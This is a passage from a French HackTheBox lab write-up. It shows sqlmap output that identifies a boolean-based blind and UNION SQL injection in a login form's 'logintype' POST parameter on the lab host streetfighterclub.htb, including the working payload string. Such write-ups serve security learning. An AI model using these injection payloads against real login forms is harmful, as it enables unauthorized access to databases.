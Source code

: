 ```plain
[14:18:10] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query - comment)'
[14:18:11] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query - comment)'
[14:18:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind - Parameter replace (heavy queries)'
[14:18:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:18:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:18:11] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:18:11] [INFO] target URL appears to have 6 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[14:18:22] [INFO] target URL appears to be UNION injectable with 6 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[14:18:30] [INFO] testing 'Generic UNION query (74) - 21 to 40 columns'
[14:18:32] [INFO] testing 'Generic UNION query (74) - 41 to 60 columns'
[14:18:33] [INFO] testing 'Generic UNION query (74) - 61 to 80 columns'
[14:18:34] [INFO] testing 'Generic UNION query (74) - 81 to 100 columns'
[14:18:35] [INFO] checking if the injection point on POST parameter 'logintype' is a false positive
POST parameter 'logintype' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 265 HTTP(s) requests:
---
Parameter: logintype (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin&password=test&logintype=1 AND 8424=8424&rememberme=ON&B1=LogIn
---
[14:18:41] [INFO] testing Microsoft SQL Server
[14:18:42] [INFO] confirming Microsoft SQL Server
[14:18:42] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 8.1 or 2012 R2
web application technology: ASP.NET, Microsoft IIS 8.5, ASP
back-end DBMS: Microsoft SQL Server 2012
[14:18:42] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 188 times
[14:18:42] [INFO] fetched data logged to text files under '/home/devloop/.sqlmap/output/members.streetfighterclub.htb'

[*] shutting down at 14:18:42
```

*SQLmap* a bien retrouvé l'injection, à savoir une injection SQL en aveugle de type booléen avec la possibilité d'utiliser UNION sur 6 colonnes. En revanche il ne semble pas possible d'enchaîner (stack) les requêtes (mettre un point virgule suivi d'une autre requête SQL), ce qui est pourtant souvent le cas avec MSSQL :(   

Voici différentes informations que j'ai récupéré sur la machine en jouant avec les différentes options de *SQLmap* :  
